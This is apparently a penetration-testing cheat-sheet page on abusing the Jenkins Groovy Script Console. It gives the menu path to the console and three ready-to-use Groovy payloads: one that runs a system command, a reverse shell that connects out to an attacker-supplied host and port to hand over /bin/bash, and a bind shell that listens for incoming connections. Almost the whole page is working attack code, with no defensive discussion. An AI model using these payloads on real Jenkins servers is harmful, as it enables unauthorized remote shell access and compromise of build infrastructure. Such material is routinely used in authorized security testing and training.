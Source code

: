 # Jenkis




## Script Console Abuse

* [https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
* [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

* "Manage Jankis" > "Script Console" > Run.

Execute command:

{% code title="exec.groovy" %}
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'whoami'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
{% endcode %}

Reverse shell:

{% code title="reverse.groovy" %}
```groovy
String host = "<LHOST>";
int port = <LPORT>;
String cmd = "/bin/bash"; // or "cmd.exe" for Windows

Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);

InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available() > 0)
        so.write(pi.read());
    while (pe.available() > 0)
        so.write(pe.read());
    while (si.available() > 0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
};

p.destroy();
s.close();
```
{% endcode %}

Bind shell:

{% code title="bind.groovy" %}
```groovy
int port = <LPORT>;
String cmd="/bin/bash"; // or "cmd.exe" for Windows

Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new java.net.ServerSocket(port).accept();

InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available() > 0)
        so.write(pi.read());
    while (pe.available() > 0)
        so.write(pe.read());
    while (si.available() > 0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
};

p.destroy();
s.close();
```
{% endcode %}
